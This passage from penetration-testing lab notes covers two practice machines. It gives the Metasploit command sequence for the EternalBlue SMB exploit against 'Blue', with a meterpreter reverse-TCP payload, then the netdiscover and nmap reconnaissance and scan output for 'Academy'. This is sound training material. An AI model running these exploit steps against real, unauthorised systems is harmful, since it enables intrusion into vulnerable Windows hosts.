 * Based on the results, we can attempt to enumerate based on the version of operating system, or if that does not work, we can go for the open ports and services given to us.

* Searching for exploits for the version of Microsoft Windows given to us, we get an exploit called 'Eternal Blue', which is a SMB remote code execution vulnerability.

* This exploit module is given as exploit/windows/smb/ms17_010_eternalblue, so we can run it using Metasploit framework:

```shell
msfconsole

use exploit/windows/smb/ms17_010_eternalblue
#by default, payload is windows/x64/meterpreter/reverse_tcp

options

set RHOSTS 10.0.2.8

show targets

exploit
```

* Hence, the 'Eternal Blue' exploit worked and we got access to Blue.

## Academy

---

* After switching on the machine, we can start scanning from Kali Linux to discover the machine and do further operations:

```shell
netdiscover -r 10.0.2.0/24
#shows machine with address 10.0.2.15, IP of Academy

ping 10.0.2.15
#ping works as well, checking if machine is up

nmap -T4 -p- -A 10.0.2.15
#nmap to scan all ports
```

* From the nmap scan, we get the following results:

```shell
21/tcp - open - ftp - vsftpd 3.0.3
ftp-anon: Anonymous FTP login allowed (FTP code 230)
_-rw-r--r-- - 1 - 1000 - 1000 - 776 - May 30 2021 - note.txt
FTP server status - Connected to ::ffff:10.0.2.7 - Logged in as ftp - TYPE: ASCII
22/tcp - open - ssh - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
ssh-hostkey: 
  2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
  256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp - open - http - Apache httpd 2.4.38 (Debian)
http-title: Apache2 Debian Default Page: It works
http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:E7:E8:11 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
